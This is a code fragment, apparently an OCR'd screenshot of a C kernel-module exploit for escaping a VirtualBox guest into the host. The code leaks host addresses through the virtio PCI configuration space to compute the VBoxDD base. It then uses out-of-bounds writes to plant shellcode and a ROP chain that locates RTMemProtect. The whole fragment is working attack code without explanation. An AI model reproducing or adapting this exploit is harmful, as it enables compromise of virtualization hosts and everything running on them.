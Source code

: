 ```c
    printk("[+] pDevInsR3_addr: 0x%llx\n", pDevInsR3_addr);

    leak_addr(vdev, dev, uNotifyOffset_off, WORD, 4);
    pci_read_config_word(dev->pci_dev, 0, &val);
    virtioR3PciConfigRead_addr |= ((uint64_t)val << 32);

    leak_addr(vdev, dev, uEnable_off, WORD, 4);
    pci_read_config_word(dev->pci_dev, 0, &val);
    virtioR3PciConfigRead_addr |= ((uint64_t)val << 16);

    leak_addr(vdev, dev, uMsixVector_off, WORD, 4);
    pci_read_config_word(dev->pci_dev, 0, &val);
    virtioR3PciConfigRead_addr |= val;

    printk("[+] virtioR3PciConfigRead_addr: 0x%llx\n", virtioR3PciConfigRead_addr);

    VBoxDD_addr = virtioR3PciConfigRead_addr - virtioR3PciConfigRead_off_VBoxDD;

    printk("[+] VBoxDD: 0x%llx\n", VBoxDD_addr);

    //copy payload
    for (i = 0; i < sizeof(shellcode); i++)
    {
        oob_write(dev, vdev, shellcode[i], PDMPCIDEVINT_s + shellcode_off + i - aVlanFilter_off, 8);
    }

    oob_write(dev, vdev, 0xdeadbeef, PDMPCIDEVINT_s + ROP_off - aVlanFilter_off, 64);

    oob_write(dev, vdev, VBoxDD_addr + pop_rax_ret, PDMPCIDEVINT_s + ROP_off + (0x8 * 1) - aVlanFilter_off, 64); //pop rax
    oob_write(dev, vdev, VBoxDD_addr + RTErrInfoSet_off, PDMPCIDEVINT_s + ROP_off + (0x8 * 2) - aVlanFilter_off, 64); //RTErrInfoSet
    oob_write(dev, vdev, VBoxDD_addr + mov_rax_ptr_rax_pop_rbp_ret, PDMPCIDEVINT_s + ROP_off + (0x8 * 3) - aVlanFilter_off, 64); //mov rax, qword ptr [rax]; pop rbp; ret;
    oob_write(dev, vdev, 0xdeadbeef, PDMPCIDEVINT_s + ROP_off + (0x8 * 4) - aVlanFilter_off, 64); //rbp value

    //calculate RTMemProtect relative to RTErrInfoSet.
    oob_write(dev, vdev, VBoxDD_addr + pop_rdx_ret, PDMPCIDEVINT_s + ROP_off +  (0x8 * 5) - aVlanFilter_off, 64); //pop rdx
    oob_write(dev, vdev, 0x270be2, PDMPCIDEVINT_s + ROP_off + (0x8 * 6) - aVlanFilter_off, 64); //valor rdx
    oob_write(dev, vdev, VBoxDD_addr + add_rax_rdx_pop_rbp_ret, PDMPCIDEVINT_s + ROP_off +  (0x8 * 7) - aVlanFilter_off, 64); //add rax, rdx; pop rbp; ret;
    oob_write(dev, vdev, 0xdeadbeef, PDMPCIDEVINT_s + ROP_off + (0x8 * 8) - aVlanFilter_off, 64); //valor rbp

    oob_write(dev, vdev, VBoxDD_addr + pop_rdx_ret, PDMPCIDEVINT_s + ROP_off +  (0x8 * 9)  - aVlanFilter_off, 64); //pop rdx
    oob_write(dev, vdev, pDevInsR3_addr + 0x3000 - 0x200 + (19 * 8), PDMPCIDEVINT_s + ROP_off + (0x8 * 10) - aVlanFilter_off, 64); //rdx value

    oob_write(dev, vdev, VBoxDD_addr + mov_ptr_rdx_rax_nop_pop_rbp_ret, PDMPCIDEVINT_s + ROP_off + (0x8 * 11) - aVlanFilter_off, 64); //mov qword ptr [rdx], rax; nop; pop rbp; ret;
    oob_write(dev, vdev, 0xdeadbeef, PDMPCIDEVINT_s + ROP_off + (0x8 * 12) - aVlanFilter_off, 64); //valor rbp

    //at this point, we have written the address of RTMemProtect into our ROP chain area.
    oob_write(dev, vdev, VBoxDD_addr + pop_rdi_ret, PDMPCIDEVINT_s + ROP_off +  (0x8 * 13) - aVlanFilter_off, 64); //pop rdi
    oob_write(dev, vdev, pDevInsR3_addr + 0x3000 - 0x200 - 0x200, PDMPCIDEVINT_s + ROP_off + (0x8 * 14) - aVlanFilter_off, 64); //rdi value
```